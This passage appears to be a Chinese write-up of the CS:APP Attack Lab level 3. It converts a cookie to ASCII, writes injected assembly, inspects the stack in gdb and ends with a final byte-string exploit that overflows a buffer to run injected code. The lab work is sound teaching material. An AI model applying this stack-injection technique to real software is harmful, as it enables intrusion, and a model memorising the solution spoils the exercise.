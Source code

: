 对应ASCII码，我们首先将cookie翻译为字符串：59b997fa => 35 39 62 39 39 37 66 61

然后考虑注入代码的逻辑，与level 2类似：

```assembly
pushq	$0x4018fa		
movq	$0x000000,%rdi	;这里这个立即数应当为存放字节代码的地址，暂定
retq
```

这里我们先将字符串保存在`%rsp+8`处看看情况如何（这里这么选的原因是）：

```assembly
Dump of assembler code for function touch3:
=> 0x00000000004018fa <+0>:     push   %rbx
   0x00000000004018fb <+1>:     mov    %rdi,%rbx
   0x00000000004018fe <+4>:     movl   $0x3,0x202bd4(%rip)       
   0x0000000000401908 <+14>:    mov    %rdi,%rsi
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        
   0x0000000000401911 <+23>:    call   0x40184c <hexmatch>
   0x0000000000401916 <+28>:    test   %eax,%eax
```

可以看到在`0x40184c`调用了函数`hexmatch`，我们在调用前后打断点，检测栈`0x5561dc78 `开始的地址即可：

```assembly
(gdb) x/20x 0x5561dc78
0x5561dc78:     0x4018fa68      0x7c8d4800      0xefc30824      0xefefefef
0x5561dc88:     0xefefefef      0xefefefef      0xefefefef      0xefefefef
0x5561dc98:     0xefefefef      0xefefefef      0x55586000      0x00000000
0x5561dca8:     0x39623935      0x61663739      0x00400000      0x00000000
0x5561dcb8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
```

可以看到，在`0x5561dca8`后面存放的8个字节就是我们的cookie字符串。

```assembly
(gdb) x/20x 0x5561dc78
0x5561dc78:     0x9b3b8d00      0xf82d828c      0x5561dca8      0x00000000
0x5561dc88:     0x55685fe8      0x00000000      0x00000004      0x00000000
0x5561dc98:     0x00401916      0x00000000      0x55586000      0x00000000
0x5561dca8:     0x39623935      0x61663739      0x00400000      0x00000000
0x5561dcb8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
```

运气比较好，并没有被覆盖。事实上，我们观察可以发现，在第三行`0x55586000`后的地址均不会被覆盖（实际上这里就是`ret`前`%rsp`指向的地址）。如果硬编码地址的话，我们选择`0x5561dca8`即可，再控制buf使其溢出到此位置即可。

```assembly
pushq	$0x4018fa		
movq	$0x5561dca8,%rdi	
retq
```

最终答案：

```
68 fa 18 40 00 
48 c7 c7 a8 dc 61 55 
c3 
ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff ff ff 
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 00
```
